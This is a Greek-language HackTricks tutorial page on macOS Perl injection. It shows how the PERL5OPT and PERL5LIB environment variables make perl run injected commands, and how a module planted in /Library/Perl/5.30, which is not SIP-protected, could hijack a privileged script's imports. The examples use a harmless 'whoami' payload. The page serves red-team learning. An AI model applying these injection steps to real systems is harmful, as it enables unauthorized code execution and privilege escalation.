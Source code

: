 # macOS Perl Applications Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Μέσω της μεταβλητής περιβάλλοντος `PERL5OPT` & `PERL5LIB`

Χρησιμοποιώντας τη μεταβλητή περιβάλλοντος PERL5OPT είναι δυνατόν να εκτελούνται αυθαίρετες εντολές από το perl.\
Για παράδειγμα, δημιουργήστε αυτό το σενάριο:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Τώρα **εξάγετε τη μεταβλητή env** και εκτελέστε το **perl** σενάριο:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Μια άλλη επιλογή είναι να δημιουργήσετε ένα module Perl (π.χ. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

Και στη συνέχεια χρησιμοποιήστε τις μεταβλητές περιβάλλοντος:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## Μέσω εξαρτήσεων

Είναι δυνατή η καταγραφή της σειράς φακέλων εξαρτήσεων που εκτελεί το Perl:
```bash
perl -e 'print join("\n", @INC)'
```
Που θα επιστρέψει κάτι σαν:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Ορισμένοι από τους επιστρεφόμενους φακέλους δεν υπάρχουν καν, ωστόσο, **`/Library/Perl/5.30`** **υπάρχει**, **δεν** είναι **προστατευμένος** από **SIP** και είναι **πριν** από τους φακέλους **που προστατεύονται από SIP**. Επομένως, κάποιος θα μπορούσε να εκμεταλλευτεί αυτόν τον φάκελο για να προσθέσει εξαρτήσεις σε σενάρια εκεί, έτσι ώστε ένα σενάριο Perl υψηλής προνομιακής πρόσβασης να το φορτώσει.

{% hint style="warning" %}
Ωστόσο, σημειώστε ότι **χρειάζεται να είστε root για να γράψετε σε αυτόν τον φάκελο** και σήμερα θα λάβετε αυτήν την **προτροπή TCC**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

Για παράδειγμα, αν ένα σενάριο εισάγει **`use File::Basename;`**, θα ήταν δυνατό να δημιουργηθεί το `/Library/Perl/5.30/File/Basename.pm` για να εκτελεί αυθαίρετο κώδικα.

## Αναφορές

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
